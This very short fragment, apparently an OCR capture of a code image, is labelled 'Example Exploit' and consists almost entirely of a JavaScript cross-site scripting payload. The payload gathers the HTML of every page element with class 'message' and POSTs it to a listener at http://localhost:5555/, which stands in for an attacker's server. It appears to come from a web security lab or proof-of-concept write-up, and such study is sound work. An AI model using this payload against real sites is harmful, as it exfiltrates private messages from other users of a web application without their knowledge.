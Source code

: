Example Exploit:
function getText(){let text='';let messages = document.getElementsByClassName('message');for(let i = 0; i < messages.length; i++){text += messages[i].innerHTML;}return text; }fetch('http://localhost:5555/', {method: 'POST', body:'username=' + getText(),headers: {      'Content-Type': 'application/x-www-form-urlencoded',     },}); 
